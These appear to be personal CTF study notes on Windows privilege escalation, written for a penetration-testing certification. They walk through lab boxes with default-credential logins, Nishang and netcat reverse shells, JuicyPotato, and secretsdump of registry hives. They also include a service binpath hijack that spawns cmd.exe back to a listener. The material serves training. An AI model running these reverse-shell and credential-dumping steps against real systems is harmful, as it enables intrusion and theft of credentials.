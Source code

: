 #Windows #PrivEsc 

CTF Boxes:
1. [[Netmon - HTB]]
2. [[Arctic - HTB]]
3. Bastard
4. Bastion
5. Querier

1. box 1
	- TCM used CVE-2009-2265
2. box 2
	1. Copy the link here - Basic PowerShell for Beginners (HackTricks)
	- TCM created a msfvenom payload for popping a user shell instead of doing nc like I did
	- TCM used #Sherlock(Sherlock.ps1) for PrivEsc and MS16-014 (kernel exploit from THM lab)
		- PrivEsc MS15-051
		- I just did JuicyPotato and rooted it...
3. Box 3 - I substituted this box for HTB boxes (Netmon AND Access), but HTB Jeeves is more similar
	1. the Alfred THM box
		1. web portal enumeration
		2. `admin:admin` logs in as default
		3. In configure tab, can run windows batch command, get revshell
			1. #Invoke-PowerShellTCP Invoke-PowerShellTCP.ps1 #Nishang Nishang!
				1. `Invoke-PowerShellTCP -Reverse -IPAddress <ip> -Port <port>`
				2. catch with `nc`
		4. TCM used MSF handler and transfered a msfvenom payload,
			1. Impersonated with incognito by migrating to process running as NET AUTHORITY/SYSTEM since MSF `getshell` was not working
				1. can do juicypotato tho like from Jeeves without MSF04
4. Box 4
	1. Copy link here - Mounting VHD Files
	2. Different mounting steps, i downloaded vhd then mounted, TCM created share drive with smb share and mounted from there (quicker and didnt download)
	3. Also used secretsdump to find password hash
		1. TCM grabbed SYSTEM and SECURITY files as well from `C:\Windows\System32\config` and added that to secretsdump
			1. This resulted in LSA dump with cleartext
5. Box 5
	1. Copy link from video
	2. TCM used #binwalk , should use with #olevba next time
		1. `binwalk -e <file>`
		2. `cd <folder extracted>`
		3. `cat vbaProject.bin`
	3. TCM used #smbserver instead of #Responder (did this because the `reporting` account could not run `xp_cmdshell` so we caught a hash as the service account and it can run that)
		1. #xp_dirtree ==Add more about this command in formal way and smbserver use for hashes==
	4. TCM #PowerUp found binary path vulnerability with `UsoSvc`... my #PowerUp showed cleartext password in GPP
		1. TCM changed the #binpath config for `USoSvc`
			1. `sc config UsoSvc binpath="C:\Reports\nc.exe 10.10.14.5 5555 -e cmd.exe"`
			2. `sc qc UsoSvc
			3. `sc stop UsoSvc`
			4. `nc -lnvp 5555`
			5. `sc start UsoSvc`


http://github.com/peterrakolcza/PNPT-study-guide/tree/main/Exam%20tips
